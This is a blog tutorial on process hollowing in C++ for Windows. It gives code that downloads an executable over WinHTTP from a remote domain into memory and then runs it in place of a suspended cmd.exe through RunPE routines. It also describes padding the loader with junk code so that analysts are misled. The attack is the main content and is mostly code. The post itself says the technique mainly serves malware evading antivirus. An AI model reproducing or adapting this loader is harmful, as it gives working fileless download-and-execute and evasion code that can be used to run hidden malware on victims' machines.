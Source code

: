 {
"title": "Process Hollowing",
"description": "Streaming and executing binary code securely",
"tags": ["Hacking", "Windows", "C++"],
"author": "Strayfade",
"date": "1/13/2023",
"showTitle": true,
"indexed": false,
"pinned": false
}

### Introduction

Process hollowing is a technique to run executable, binary code, while disguised as a different process. It is mainly used by malware to replace the code of a running, trusted program with its own, making it very difficult to detect. Although its main use is to evade detection by anti-viruses, process hollowing also has a legitimate use.

> More information about process hollowing can be found at [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)

We can use process hollowing to download and run an executable without reading or writing to the disk, which is very useful in preventing reverse-engineering of our code.

### Downloading Binary

We will use `WinHTTP` to download a file from the internet into a temporary buffer.

First, we open an `HINTERNET` session object and initialize its connection to the domain our binaries are stored on.

    HINTERNET hSession = WinHttpOpen(USER_AGENT, WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
    HINTERNET hConnection = WinHttpConnect(hSession, DOWNLOAD_DOMAIN, (DOWNLOAD_USE_HTTPS ? INTERNET_DEFAULT_HTTPS_PORT : INTERNET_DEFAULT_HTTP_PORT), 0);

Here, `USER_AGENT` is defined as a default User Agent (`Mozilla/5.0 (X11;...`) and `DOWNLOAD_DOMAIN` is the domain where our binaries are hosted (`strayfade.com` in this case)
`DOWNLOAD_USE_HTTPS` is defined as `true` so that we connect on port 443 which is used for HTTPS.

    HINTERNET hRequest = WinHttpOpenRequest(hConnection, L"GET", DOWNLOAD_PATH, NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);

-   `L"GET"` tells WinHTTP to create a `GET` request
-   `DOWNLOAD_PATH` is the path of the binaries on the server (`/cdn/file.exe`)
-   `WINHTTP_DEFAULT_ACCEPT_TYPES` tells WinHTTP to accept binary data.
-   `WINHTTP_FLAG_SECURE` tells WinHTTP that this data is served over HTTPS.

This code sends the request and reads the response into the `hRequest` variable. Below, we get the size of the transferred data to allocate memory for it.

    WinHttpSendRequest(hRequest, WINHTTP_NO_ADDITIONAL_HEADERS, 0, WINHTTP_NO_REQUEST_DATA, 0, 0, 0))
    WinHttpReceiveResponse(hRequest, NULL)

    DWORD contentLength = 0;
    DWORD contentLengthBufferSize = 128;
    WinHttpQueryHeaders(hRequest, WINHTTP_QUERY_CONTENT_LENGTH | WINHTTP_QUERY_FLAG_NUMBER, WINHTTP_HEADER_NAME_BY_INDEX, &contentLength, &contentLengthBufferSize, WINHTTP_NO_HEADER_INDEX)
    unsigned char* buffer = new unsigned char[contentLength];

Next, we have to read the response into the array

    DWORD bytesRead = 0;
    WinHttpReadData(hRequest, (LPVOID)buffer, contentLength, &bytesRead);

### Creating a process

> I learned about most of this from the [adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing) repository on GitHub, so credit goes to them for some bits of this code.

First, we have to create a dummy process to be "hollowed":

    CreateProcessA((LPSTR)HOST_PROCESS, nullptr, nullptr, nullptr, TRUE, CREATE_SUSPENDED, nullptr, nullptr, &SI, &PI);

What's important here is the `HOST_PROCESS` variable and `CREATE_SUSPENDED` flag. `HOST_PROCESS` is a path (string) to the executable to hollow. For our use, this is set to the absolute path of `cmd.exe`. The `CREATE_SUSPENDED` flag tells `CreateProcessA` to suspend the process as soon as it is created, letting us replace its PE image before it starts.

We also need to check whether or not the running executable is compatible (has the same architecture as our replacement code). To do this, I'm using functions from the `Process-Hollowing` repository:

    bool bTarget32;
    IsWow64Process(PI.hProcess, &bTarget32);
    ProcessAddressInformation ProcessAddressInformation = { nullptr, nullptr };
    ProcessAddressInformation = GetProcessAddressInformation64(&PI); // Get base address of process to hollow
    const bool bSource32 = IsPE32(hFileContent); // hFileContent is a cast of buffer to type LPVOID

    DWORD dwSourceSubsystem = GetSubsytem64(hFileContent);
    DWORD dwTargetSubsystem = GetSubsystemEx64(PI.hProcess, ProcessAddressInformation.lpProcessImageBaseAddress);
    if (dwSourceSubsystem != dwTargetSubsystem)
        return;

Finally, we do the actual process hollowing

    bool bHasReloc = HasRelocation64(hFileContent);
    if (!bHasReloc)
        RunPE64(&PI, hFileContent);
    else
        RunPEReloc64(&PI, hFileContent);

### More Important Things

One neat thing we can do to confuse reverse-engineerers is to pad our executable with junk code, since the whole program only ends up at about 16kb. There aren't many programs that small, so we need to add junk code to make our process hollowing look like it's just running the original program. I added 2mb of filler to the program, since the binaries we were downloading were around that size.

    CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Pad, 0, 0, 0); // This runs in a thread after the process hollowing has finished.

### References

-   [https://attack.mitre.org/techniques/T1055/012/](https://attack.mitre.org/techniques/T1055/012/)
-   [https://github.com/adamhlt/Process-Hollowing](https://github.com/adamhlt/Process-Hollowing)
-   [https://github.com/kernelm0de/RunPE-ProcessHollowing](https://github.com/kernelm0de/RunPE-ProcessHollowing)
